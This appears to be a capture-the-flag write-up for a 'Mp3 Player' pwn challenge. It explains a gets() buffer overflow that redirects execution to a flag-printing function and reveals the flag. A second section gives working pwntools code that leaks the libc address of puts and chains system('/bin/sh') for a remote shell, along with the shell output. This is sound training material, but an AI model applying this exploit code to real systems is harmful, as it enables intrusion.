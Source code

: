 > # Pwn - Mp3 Player
> > Pwn - 200pts
>
> We found an old mp3 player laying around and decided to connect it to the internet for everyone to listen to its > good ol' hits. <br />
> However, we might have messed up some of the instructions when setting it up...
>
> Files: [Source code](src)
>
> You can connect to the mp3 player with netcat
> ```bash
> $ nc motherload.td.org.uit.no 8006
> ```

## Writeup
Exploit script can be found in [exploit.py](exploit.py).

The C-code uses the `gets()` function to gather user input, which is vulnerable to a buffer overflow attack where we can overwrite the instruction pointer `rip` to call the function printing the flag.

We need to find the amount of bytes needed to overwrite the instruction pointer `rip`, and use that as padding before we overwrite `rip` with the function address of *call_me_maybe*, which gives us the flag.

The offset before overwriting the instruction pointer can be found with the python script [find_offset.py](find_offset.py) (requires pwntools `pip install pwntools`), or by manually segmentation faulting the program, and find the amount of bytes needed for the segmentation fault to occur.

The function address we want to overwrite the instruction pointer `rip` with can be found with pwntools' `elf.symbols["call_me_maybe"]` or with *gdb*
```bash
$ gdb mp3_player
$ disas call_me_maybe
Dump of assembler code for function call_me_maybe:
   0x00000000004012fb <+0>:	endbr64
   0x00000000004012ff <+4>:	push   %rbp
   0x0000000000401300 <+5>:	mov    %rsp,%rbp
```
Giving the address of the function 0x4012fb

The payload is then crafted by sending 40 bytes (our found offset) and the function address 0x4012fb as bytes.

```
UiTHack23{H3r35_MY_4dDr355_50_caLL_M3_may83}
```

## Alternative solution: Shell on the server

You can get a shell on the server running the mp3_player binary using the same technique as in the `tamagotchi` challenge.

The exploit-script for getting shell on the server is located in [exploit-shell.py](./exploit-shell.py), and the method used there is described more in-depth [here](../../tamagotchi/writeup/writeup.md).

In a short summary, we first find the libc version used by leaking the address of the puts-function from the got-table (global offset table), after we have found the offset to the `rip`-register
```python
offset = 40

# First ROP-chain to leak puts address in libc
rop = ROP(elf)
rop.raw(b"\x90"*offset)
rop.puts(elf.got["puts"])
rop.call(elf.symbols["main"])

# Send payload
p.recvuntil(b"ABBA")
p.sendline(rop.chain())

# Parse the leaked address, and set libc base address
p.recvuntil(b"song\n")
puts_leak = u64(p.recvline().rstrip().ljust(8, b"\x00"))
log.info(f"Puts address found: {hex(puts_leak)}")
```

With the address of `puts` we can figure out the libc-version being used by the server (same libc as used in tamagotchi, and is the libc used by docker for 20.04 images).

Knowing the libc-version we can then call `system('/bin/sh')` to get shell on the server, with a second rop-chain (note that we in the first rop-chain redirected the program execution back to the *main* function so that we could send out second rop-chain).
```python
libc.address = puts_leak - libc.symbols["puts"]

# Second ROP-chain to get shell on the server
ret_addr = rop.find_gadget(["ret"])[0]
rop = ROP(libc)
rop.raw(b"\x90"*offset)
rop.raw(p64(ret_addr))
rop.system(next(libc.search(b"/bin/sh")))

# Send payload
p.recvuntil(b"ABBA")
p.sendline(rop.chain())
p.interactive()
```
By running the script with the correct libc-version of the server we get the shell, and have used an alternative (and harder) way to get the flag than the intended method described at first in this writeup.
```bash
$ python3 exploit.py
[+] Opening connection to motherload.td.org.uit.no on port 8006: Done
[*] Loaded 14 cached gadgets for './mp3_player'
[*] Puts address found: 0x7f53a2238420
[*] Loaded 196 cached gadgets for './libc.so'
[*] Switching to interactive mode

Could not play the requested song
$ ls
flag.txt
mp3_player
$ id
uid=1000(mp3) gid=1000(mp3) groups=1000(mp3)
```